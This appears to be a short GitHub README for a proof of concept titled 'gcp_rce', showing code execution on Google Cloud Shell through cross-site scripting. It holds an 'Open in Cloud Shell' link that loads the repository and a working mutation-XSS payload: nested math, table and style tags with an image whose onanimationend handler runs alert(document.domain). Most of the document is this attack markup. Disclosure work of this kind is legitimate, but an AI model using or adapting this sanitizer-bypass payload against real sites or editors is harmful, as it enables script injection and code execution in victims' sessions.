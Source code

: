 # gcp_rce
ACE on GCP through XSS - PoC

[![Open in Cloud Shell](https://gstatic.com/cloudssh/images/open-btn.svg)](https://ssh.cloud.google.com/cloudshell/editor?cloudshell_git_repo=https://github.com/Nowasky/gcp_rce.git&page=editor&open_in_editor=README.md)

<style>@keyframes x{}</style>
<math><mtext><table><mglyph><style><img style="animation-name:x" onanimationend="alert(document.domain)">
